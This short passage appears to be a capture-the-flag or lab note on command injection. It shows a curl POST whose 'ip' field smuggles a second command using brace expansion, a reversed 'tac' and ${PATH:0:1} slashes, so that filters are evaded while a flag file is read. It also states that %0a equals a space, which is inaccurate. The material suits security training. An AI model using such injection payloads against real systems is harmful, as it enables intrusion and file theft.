 #

`%0a` == SPACE char

```
curl -X POST "http://94.237.49.212:41131/" --data 'ip=;{$(rev<<<"tac"),${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}'
```
